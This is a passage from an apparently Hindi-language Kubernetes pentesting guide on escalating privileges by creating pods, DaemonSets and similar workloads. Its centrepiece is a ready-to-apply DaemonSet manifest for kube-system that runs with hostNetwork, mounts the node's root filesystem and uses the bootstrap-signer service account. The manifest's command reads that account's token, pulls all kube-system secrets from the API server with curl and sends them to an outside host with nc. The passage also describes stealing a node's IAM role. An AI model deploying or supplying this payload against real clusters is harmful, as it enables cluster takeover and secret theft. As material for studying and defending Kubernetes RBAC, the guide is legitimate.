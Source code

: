 _आप_ [_https://github.com/BishopFox/badPods_](https://github.com/BishopFox/badPods) _में पिछले विशेषाधिकार वाले पॉड कॉन्फ़िगरेशन के उदाहरण ढूंढ सकते हैं_

### पॉड बनाएं - क्लाउड में जाएं

यदि आप एक **पॉड बना सकते हैं** (और वैकल्पिक रूप से एक **सर्विस अकाउंट**) तो आप **क्लाउड माहौल में विशेषाधिकार प्राप्त कर सकते हैं** एक पॉड या सर्विस अकाउंट को **क्लाउड रोल देकर** और फिर उसे एक्सेस करके।
इसके अलावा, यदि आप **होस्ट नेटवर्क नेमस्पेस के साथ एक पॉड बना सकते हैं** तो आप **नोड** इंस्टेंस की **IAM** रोल को चुरा सकते हैं।

अधिक जानकारी के लिए देखें:

{% content-ref url="pod-escape-privileges.md" %}
[pod-escape-privileges.md](pod-escape-privileges.md)
{% endcontent-ref %}

### **डिप्लॉयमेंट, डेमनसेट्स, स्थायीसेट्स, रिप्लिकेशनकंट्रोलर्स, रिप्लिकासेट्स, जॉब्स और क्रॉनजॉब्स बनाएं/पैच करें**

डिप्लॉयमेंट, डेमनसेट्स, स्थायीसेट्स, रिप्लिकेशनकंट्रोलर्स, रिप्लिकासेट्स, जॉब्स और क्रॉनजॉब्स सभी विशेषाधिकार हैं जो क्लस्टर में विभिन्न कार्यों का निर्माण करने की अनुमति देते हैं। इसके अलावा, इन सभी का उपयोग करके **पॉड विकसित करना और पॉड बनाना** संभव है। इसलिए इन्हें **पिछले उदाहरण की तरह विशेषाधिकारों को बढ़ाने के लिए दुरुपयोग किया जा सकता है।**

मान लें कि हमें **एक डेमनसेट बनाने की अनुमति है** और हम निम्नलिखित YAML फ़ाइल बनाते हैं। इस YAML फ़ाइल को "पॉड बनाएं" अनुभाग में हमने उल्लिखित कदमों को करने के लिए कॉन्फ़िगर किया गया है।
```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: kube-system
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
serviceAccountName: bootstrap-signer
automountServiceAccountToken: true
hostNetwork: true
containers:
- name: alpine
image: alpine
command: ["/bin/sh"]
args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
volumeMounts:
- mountPath: /root
name: mount-node-root
volumes:
- name: mount-node-root
hostPath:
path: /
```
यहां लाइन 6 में आप "spec" ऑब्जेक्ट और इसके बच्चे ऑब्जेक्ट जैसे "template" पाएंगे। ये ऑब्जेक्ट हमारे कार्य को पूरा करने के लिए कॉन्फ़िगरेशन रखते हैं। एक और बात ध्यान देने योग्य है "serviceAccountName" लाइन 15 में और "containers" ऑब्जेक्ट लाइन 18 में। यह वह हिस्सा है जो हमारे दुष्ट container को बनाने से संबंधित है।
